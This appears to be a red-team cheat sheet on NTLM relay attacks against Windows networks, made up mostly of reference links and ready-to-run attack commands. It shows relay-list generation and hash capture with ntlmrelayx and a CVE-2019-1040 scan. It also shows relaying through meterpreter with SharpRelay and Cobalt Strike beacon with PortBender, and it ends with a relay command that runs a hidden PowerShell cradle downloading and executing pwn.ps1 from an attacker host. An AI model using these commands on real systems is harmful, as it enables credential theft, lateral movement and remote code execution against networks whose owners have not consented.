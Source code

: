 # NTLM Relay

* [https://en.hackndo.com/ntlm-relay/](https://en.hackndo.com/ntlm-relay/)
* [https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/](https://blog.fox-it.com/2017/05/09/relaying-credentials-everywhere-with-ntlmrelayx/)
* [https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [https://www.secureauth.com/blog/playing-with-relayed-credentials/](https://www.secureauth.com/blog/playing-with-relayed-credentials/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/](https://www.sans.org/blog/smb-relay-demystified-and-ntlmv2-pwnage-with-python/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)
* [https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire](https://hunter2.gitbook.io/darthsidious/execution/responder-with-ntlm-relay-and-empire)
* [https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/](https://www.blackhillsinfosec.com/an-smb-relay-race-how-to-exploit-llmnr-and-smb-message-signing-for-fun-and-profit/)
* [https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/](https://clement.notin.org/blog/2020/11/16/ntlm-relay-of-adws-connections-with-impacket/)
* [https://luemmelsec.github.io/Relaying-101/](https://luemmelsec.github.io/Relaying-101/)
* [[PDF] Lateral Movement using Credentials Relaying (taso_x)](https://drive.google.com/file/d/1t8akbdgan7i9Rw0tFEIP223CmHFlTRCH/view?usp=sharing)
* [https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay](https://www.thehacker.recipes/active-directory-domain-services/movement/lm-and-ntlm/relay)
* [https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/](https://www.trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022/)
* [https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay](https://www.fortalicesolutions.com/posts/keeping-up-with-the-ntlm-relay)

Generate relay list with cme and enumerate local admins when relaying:

```
$ cme smb 192.168.2.0/24 --gen-relay-list out.txt
$ sudo ntlmrelayx.py -smb2support --no-http-server -tf out.txt --enum-local-admins -of net-ntlmv2
```

Relay & catch hashes (via [multi-relay](https://www.thehacker.recipes/ad/movement/ntlm/relay#tips-and-tricks)):

```
$ sudo smbserver.py -smb2support -port 8445 share `pwd`
$ sudo ntlmrelayx.py -smb2support --no-http-server --no-wcf-server -tf targets.txt
$ cat targets.txt
smb://10.10.13.37
smb://127.0.0.1:8445
```




## CVE-2019-1040-scanner

* [https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py](https://github.com/fox-it/cve-2019-1040-scanner/blob/master/scan.py)

```
$ python scan.py MEGACORP/snovvcrash:'Passw0rd!'@192.168.1.11
$ python scan.py -target-file DCs.txt MEGACORP/snovvcrash:'Passw0rd!'@placeholder.xyz
```




## Relaying on Windows



### meterpreter + SharpRelay

* [https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/](https://diablohorn.com/2018/08/25/remote-ntlm-relaying-through-meterpreter-on-windows-port-445/)
* [https://github.com/pkb1s/SharpRelay](https://github.com/pkb1s/SharpRelay)

Divert incoming SMB traffic from Victim to Attacker's local 445 port through an elevated meterpreter session and relay it to Target via MSF SOCKS server.

1\. Add a static route to the Target through the 1st meterpreter session:

```
meterpreter > route add 192.168.1.11/32 1
```

2\. Start MSF SOCKS server:

```
msf > use auxiliary/server/socks_proxy
msf auxiliary(server/socks_proxy) > set SRVHOST 127.0.0.1
msf auxiliary(server/socks_proxy) > run -j
```

3\. Forward a reverse port 8445 on Victim to local port 445 on Attacker and start diverting incoming SMB traffic on Victim to Victim's local 8445 port:

```
meterpreter > portfwd add -R -L 127.0.0.1 -l 445 -p 8445
meterpreter > cd C:\\Windows\\System32\\drivers
meterpreter > upload /home/snovvcrash/www/WinDivert64.sys
msf post(windows/manage/execute_dotnet_assembly) > set SESSION 1
msf post(windows/manage/execute_dotnet_assembly) > set DOTNET_EXE /home/snovvcrash/www/SharpRelay.exe
msf post(windows/manage/execute_dotnet_assembly) > set ARGUMENTS relaysvc "C:\Windows\System32\drivers\WinDivert64.sys" 445 8445
msf post(windows/manage/execute_dotnet_assembly) > run
```

4\. Relay the diverted traffic to Target through SOCKS:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support
```

{% hint style="warning" %}
When ran once, the driver must be unloaded or the host rebooted before trying again. The fake service can be deleted with a PowerShell command:

```
PS > (sc.exe stop relaysvc) -and (sc.exe delete relaysvc)
```
{% endhint %}



### beacon + PortBender

- [https://github.com/praetorian-inc/PortBender](https://github.com/praetorian-inc/PortBender)
- [https://rastamouse.me/ntlm-relaying-via-cobalt-strike/](https://rastamouse.me/ntlm-relaying-via-cobalt-strike/)

Set SOCKS server & port forwarding, upload WinDivert driver and configure redirection with PortBender:

```
beacon> socks 1080
beacon> rportfwd 8445 127.0.0.1 445
beacon> cd C:\Windows\System32\drivers
beacon> upload /home/snovvcrash/www/WinDivert64.sys
beacon> PortBender redirect 445 8445
```

Relay the planet:

```
$ sudo proxychains4 -q ntlmrelayx.py -t smb://192.168.1.11 -smb2support --no-http-server --no-wcf-server -c 'powershell -nop -w hidden -c "iex(new-object net.webclient).downloadstring(\"http://10.10.13.37:8080/pwn.ps1\")"'
```

Stop PortBender:

```
beacon> jobs
beacon> jobkill <JID>
beacon> kill <PID>
```
